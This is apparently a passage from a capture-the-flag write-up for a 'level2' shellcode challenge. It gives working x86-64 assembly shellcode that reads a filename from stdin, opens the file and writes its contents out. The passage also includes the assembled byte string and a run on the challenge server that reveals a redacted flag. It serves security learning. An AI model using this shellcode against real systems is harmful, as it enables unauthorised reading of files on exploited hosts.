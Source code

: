 First, hard-coding the filename is out of the question. That would waste at least 18 bytes, or 36% of the shellcode. Furthermore, it would contain the bad char `0x2f` which is the slash `/`. Instead, I decided to read in the name of the file with a syscall; the rest of the shellcode then takes care of opening that file, reading from it and sending the bytes back to us.

```
bits 64

_start:
xor rax, rax        ; syscall read = 0
xor rdi, rdi        ; we'll read from stdin
mov rsi, rsp        ; one byte shorter than 'lea rsi, [rsi]'
push byte 18        ; number of bytes to read, enough for the filename
pop rdx
syscall 

xor rax, rax
inc rax
inc rax             ; syscall open
                    ; instead of setting rdi to the filename (located on the stack),
                    ; we re-use the fact that rdi is zero and rsi points to that filename
xchg rsi, rdi       ; now rsi = 0 (O_RDONLY), and rdi points to the filename we just read
syscall

xchg rax, rsi       ; after this, rsi contains the filehandle of the opened file, rax contains 0
xchg rdi, rsi       ; after this, rdi contains the filehandle and rsi points to the stack (a buffer!)
push byte 127
pop rdx             ; read 127 bytes, should be plenty
syscall             ; because we set rax to 0, this will call syscall read

xor rax, rax
inc rax             ; syscall write
mov rdi, rax        ; copy the value of rax to rdi (1 = stdout)
                    ; rsi = still pointer to buffer
                    ; rdx = still 0x7f
syscall             ; grab the flag!
```

Assembling the shellcode is done with the previous command. No bad chars made it into the shellcode, and we have one byte to spare!

```
$ echo; nasm -f bin ./level2-shellcode.asm; xxd -c 1 ./level2-shellcode | awk '{print "\\x"$2 }' |tr -d '\n'; echo; wc -c ./level2-shellcode

\x48\x31\xc0\x48\x31\xff\x48\x89\xe6\x6a\x12\x5a\x0f\x05\x48\x31\xc0\x48\xff\xc0\x48\xff\xc0\x48\x87\xf7\x0f\x05\x48\x96\x48\x87\xfe\x6a\x7f\x5a\x0f\x05\x48\x31\xc0\x48\xff\xc0\x48\x89\xc7\x0f\x05
49 ./level2-shellcode
```

Running it on the server:

```bash
shellcode>\x48\x31\xc0\x48\x31\xff\x48\x89\xe6\x6a\x12\x5a\x0f\x05\x48\x31\xc0\x48\xff\xc0\x48\xff\xc0\x48\x87\xf7\x0f\x05\x48\x96\x48\x87\xfe\x6a\x7f\x5a\x0f\x05\x48\x31\xc0\x48\xff\xc0\x48\x89\xc7\x0f\x05
    Shellcode received...
    Shellcode length (49) bytes.

    Success: Executing shellcode...

/flag/level2.flag^@
FLAG-<redacted>
    Error: SIGSEGV received I think your shellcode is not working
```
